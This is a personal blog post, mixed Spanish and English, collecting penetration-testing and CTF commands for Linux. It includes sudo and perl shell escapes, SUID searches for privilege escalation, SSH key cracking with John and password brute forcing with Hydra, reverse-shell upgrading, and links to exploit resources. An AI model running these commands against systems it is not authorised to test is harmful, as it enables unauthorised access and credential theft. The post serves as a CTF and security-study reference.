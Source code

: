 ```yaml
---
layout: post
title: "CheatSheets"
author: "TheusZero"
subtitle: 'Codigos mas usados'
header-img: "images/Sekiro3.png"
catalog: true
comments: true
---
```

## Linux

#### Sudo 

```Python
sudo -l
```

```Python
sudo -u USER /bin/bash
```

```Python
sudo -u USER commandLine /dir/file
```
#### Net
```Python
sockstat -4 -l 
```
```Python
netstat -anp tcp | grep -i listen
```
#### DNS

**add the dns server to your machine**

```Python
echo "Mensaje" | sudo tee -a /dir/archivo 
```

#### Echo

**escribir sin vim**
```Python
echo “Reverse shell” > /dir/file
```
#### Perl

```Python
sudo perl -e 'exec "/bin/sh";
```
#### SSH

**El punto tambien va del final.**
```Python
sshpass -p 'passwordOfUser' scp -oStrictHostKeyChecking=no User@IP:File .
```

**Port Forwarding Desde mi maquina**
```Python
ssh -L port:127.0.0.1:port -N -f -l userSSH IP 
```

**ssh-passwd fuerza bruta (John)**

```Python
/JohnTheRipper/run/ssh2john.py id_rsa > forjohn.txt
/JohnTheRipper/run/john forjohn.txt --wordlist=/dir/wordlist.txt
```

**ssh-passwd-user fuerza bruta (Hydra)**

```Python
hydra -l 'user' -P /dir/wordlist ssh://IP 
```

#### Python
**Upgrade Reverse Shell**
```Python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
**Simple Web Server**
```Python
python2 -m SimpleHTTPServer 4567
```
#### Binaries

**Recordar jugar con las SUID para escalar privilegios con ayuda de GTFObins**

```Python
find / perm -u=s -type f 2>/dev/null
```
```Python
find / -user root -perm -4000 -print 2>/dev/null
```
```Python
find / -user root -perm -4000 -exec ls -ldb {} \;
```
#### Stego
```
steghide extract -sf filename.txt
```
```Python
for i in $(ls | \grep jpg); do exiftool $i && echo -e '\n--------------------------------------\n'; done
```
#### Others
**Another way to read a file**
**read a single file**
```Python
echo < archive.txt
while read line; do echo $line; done < archivo.txt
```
```Python
grep . archivo.txt
```
**read all files**
```Python
grep -R .
```
**Read the History Files**
```Python
cat ~/.*history | less
```
## Windows

## Link Interesantes

> [GTFOBins](https://gtfobins.github.io/)

> [ReverseShellsPM](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

> [ExploitDB](https://www.exploit-db.com/)

> [Campo de Marte](https://www.campodemarte.cl/)

> [CTFtime](https://ctftime.org/)

> [Escritura Exploits (Español)](https://fundacion-sadosky.github.io/guia-escritura-exploits/)

> [escapar de shells restringidas](https://www.hackplayers.com/2018/05/tecnicas-para-escapar-de-restricted--shells.html)

> [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

> [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)

> [Malla-Interactiva-USM](https://mallas.labcomp.cl/?m=TEL)

> [Lab-Redes](http://www2.elo.utfsm.cl/~tel241/20102s/)

## Herramientas
> [PsPy](https://github.com/DominicBreuker/pspy) 

> [LinEnum](https://github.com/rebootuser/LinEnum/)

> [PsPy64](https://f4d3.io/assets/downloads/linux/pspy64s) (grax f4d3 :D)

> []()